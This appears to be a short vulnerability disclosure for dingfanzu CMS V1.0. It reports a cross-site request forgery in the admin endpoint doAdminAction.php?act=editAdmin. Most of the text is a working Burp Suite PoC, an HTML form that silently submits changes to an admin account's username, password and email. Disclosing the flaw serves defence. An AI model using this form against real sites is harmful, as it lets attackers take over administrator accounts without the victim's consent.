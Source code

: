 
target:https://github.com/geeeeeeeek/dingfanzu
version: V1.0

dingfanzu CMS V1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/doAdminAction.php?act=editAdmin&id=17

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/doAdminAction.php?act=editAdmin&id=17" method="POST">
      <input type="hidden" name="act" value="editAdmin" />
<input type="hidden" name="id" value="17" />
<input type="hidden" name="username" value="cs1" />
<input type="hidden" name="password" value="" />
<input type="hidden" name="email" value="123%40qq.com" />
<input type="hidden" name="shopPhone" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

